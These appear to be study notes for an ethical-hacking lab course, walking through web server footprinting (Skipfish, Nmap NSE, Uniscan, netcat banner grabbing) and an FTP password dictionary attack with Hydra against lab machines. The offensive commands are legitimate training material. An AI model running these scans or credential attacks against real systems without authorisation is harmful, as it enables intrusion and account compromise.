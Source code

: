 # Lab 1: Footprint the Web Server
## Task 1: Information Gathering using Ghost Eye

	[parrot]
	sudo su
	cd  ghost_eye
	pip3 install -r requirments.txt 
	python3 ghost_eye.py
	3 -> perform whose looup
	certifiedhacker.com ->Enter Domain or IP Address
	look -
	Domain Name, Registry Domain ID, Registrar WHOIS Server, Registrar URL, and Updated Date.
	type 2 -> DNS lookup
	certifiedhacker.com
	6 -> Clickjacking
	certifiedhacker.com
---
## Task 2: Perform Web Server Reconnaissance using Skipfish

	[Win Server 22]
	search wamp, Wampserver64 appears -> enter
	Wait until the WAMP Server icon turns Green in the Notification area.

	[parrot]
	sudo su
	perform security reconnaissance on a web server using Skipfish.The target is the WordPress website http://[IP Address of Windows Server 2022].
	
	skipfish -o /home/attacker/test -S /usr/share/skipfish/dictionaries/complete.wl http://[IP Address of Windows Server 2022]:8080
	-> o/p dir test
	-> dictionary file based on the web server’s requirement
	
	On receiving this command, Skipfish performs a heavy brute-force attack on the web server by using the complete.wl dictionary file, creates a directory named test in the root location, and stores the result in index.html inside this location.
	
	Let it run for 5 mint, Ctrl+C
	
	Open /home/attacker/test/index.html -> firefox -> To view the scan result
---
## Task 3: Footprint a Web Server using the httprecon Tool

	[win 11]
	Web Server Footprinting Tools\httprecon, right-click httprecon.exe -> Run as an admin
	Website url: www.certifiedhacker.com
	port:80
	Analyze
	
	Get existing tab, and observe the server (nginx) used to develop the webpages. [attackers research the vulnerabilities present in nginx and try to exploit them, 
	which results in either full or partial control over the web application.]
	
	GET long request tab, which lists all GET requests. Next, click the Fingerprint Details tab. [include the name of the protocol the website is using and its 
	version.Attacker might perform malicious activities such as sniffing over the HTTP channel, which might result in revealing sensitive data such as user credentials.]
---
## Task 4: Footprint a Web Server using ID Serve

	[Win 11]
	Web Server Footprinting Tools\ID Serve and double-click idserve.exe.
	The main window of ID Serve appears. By default, the Server Query tab appears.
	
	enter the URL (http://www.certifiedhacker.com) you want to footprint.
	Click Query the Server to start querying the website.
---
## Task 5: Footprint a Web Server using Netcat and Telnet

**Netcat**
Netcat is a networking utility that reads and writes data across network connections, using the TCP/IP protocol.
**Telnet**

Telnet is a client-server network protocol. It is widely used on the Internet or LANs. It provides the login session for a user on the Internet. The single terminal attached to another computer emulates with Telnet. The primary security problems with Telnet are the following:
-It does not encrypt any data sent through the connection.    
-It lacks an authentication scheme.

	[parrot]
	sudo su
	nc -vv www.moviescope.com 80	
	GET / HTTP/1.0 -> Enter twice
	
	Netcat will perform the banner grabbing and gather information such as content type, last modified date, accept ranges, ETag, and server information.

	telnet www.moviescope.com 80
	GET / HTTP/1.0 -> Enter twice
	
	Telnet will perform the banner grabbing and gather information such as content type, last modified date, accept ranges, ETag, and server information.
---
## Task 6: Enumerate Web Server Information using Nmap Scripting Engine (NSE)

	[parrot]
	nmap -sV --script=http-enum www.goodshoping.com
	 
	 To discover the hostnames that resolve the targeted domain.
	nmap --script hostmap-bfk -script-args hostmap-bfk.prefix=hostmap- www.gooshopping.com

	Perform HTTP trace on the targeted domain
	nmap --script http-trace -d www.goodshopping.com
	This script will detect a vulnerable server that uses the TRACE method by sending an HTTP TRACE request that shows if the method is enabled or not.

	check whether Web Application Firewall is configured on the target host or domain
	nmap -p80 --script http-waf-detect www.goodshopping.com 
	determine whether a web server is being monitored by an IPS, IDS, or WAF.
	This command will probe the target host with malicious payloads and detect the changes in the response code.
---
## Task 7: Uniscan Web Server Fingerprinting in Parrot Security

	[Win server 22]
	launch wamp, Wampserver64 -> Enter
	Wait until the WAMP Server icon turns Green in the Notification area. Leave the Windows Server 2022 machine running.

	[parrot]
	sudo su
	
	uniscan -h
	uniscan -u http://10.10.1.22:8080/CEH -q
	-q -> to search for the directories of the web server.
	
	uniscan -u http://10.10.1.22:8080/CEH -we
	Here -w and -e are used together to enable the file check (robots.txt and sitemap.xml file).
	
	uniscan -u http://10.10.1.22:8080/CEH -d
	to start a dynamic scan on the web server.
	obtaining more information about email-IDs, Source code disclosures, and external hosts, web backdoors, dynamic tests.
	
	File system ->
	usr --> share --> uniscan --> report.
---
# Lab 2: Perform a Web Server Attack
## Task 1: Crack FTP Credentials using a Dictionary Attack
TO check whether ftp service is running on windows 11 m/c

[parrot]
sudo su
nmap -p 21 10.10.1.11 -> 21 is open

To check whether FTP server is hosted on win 11
ftp  10.10.1.11

You will be prompted to enter user credentials. The need for credentials implies that an FTP server is hosted on the machine.
Enter any credentials, u will not able to login. Close terminal


Perform Dictonary attack to gain access to FTP server using THC Hydra tool
Copy worklist folder from shared : to desktop

[parrot]
sudo su

hydra -L /home/attacker/Desktop/Wordlists/Usernames.txt -P /home/attacker/Desktop/Wordlists/Passwords.txt ftp://10.10.1.11
On completion of the password cracking, the cracked credentials appear

Login using credentials

ftp 10.10.1.11
Martin
apple
ftp>mkdir Hacked
ftp>help
ftp>quit

[Win 11]
C:\FTP-> view the dir name Hacked


